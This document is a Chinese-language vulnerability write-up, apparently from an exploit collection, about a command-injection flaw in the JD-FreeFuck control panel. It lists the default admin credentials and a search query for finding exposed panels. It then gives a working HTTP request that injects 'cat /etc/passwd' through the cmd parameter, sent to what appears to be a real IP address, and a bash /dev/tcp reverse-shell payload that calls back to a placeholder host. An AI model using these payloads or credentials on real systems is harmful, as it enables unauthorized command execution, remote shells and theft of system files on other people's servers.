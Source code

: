 # JD-FreeFuck 后台命令执行漏洞

## 漏洞描述

JD-FreeFuck 存在后台命令执行漏洞，由于传参执行命令时没有对内容过滤，导致可以执行任意命令，控制服务器

项目地址： https://github.com/meselson/JD-FreeFuck

## 漏洞影响

```
JD-FreeFuck
```

## 网络测绘

```
title="京东薅羊毛控制面板"
```

## 漏洞复现

访问后登录页面如下

![](./images/202202101952995.png)



默认账号密码为

**useradmin/supermanito**

![](./images/202202101952574.png)



发送如下请求包执行命令

```plain
POST /runCmd HTTP/1.1
Host: 101.200.189.251:5678
Content-Length: 50
Pragma: no-cache
Cache-Control: no-cache
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: connect.0.6356777726800276=s%3Av1W6DxlSqnPpVgvMCItxElFeKI1Psh4i.eE4ORs0Yz30N0TOg1pUVpOqrpIHyrqIimuXJVO8lE7U
Connection: close

cmd=bash+jd.sh+%3Bcat /etc/passwd%3B+now&delay=500
```



其中 cmd 参数存在命令注入



![](./images/202202101952947.png)



反弹shell



```plain
cmd=bash+jd.sh+%3Bbash+-c+'exec+bash+-i+%26%3E%2Fdev%2Ftcp%2Fxxx.xxx.xxx.xxx%2F9999+%3C%261'%3B+now&delay=500
```



![](./images/202202101952367.png)

## 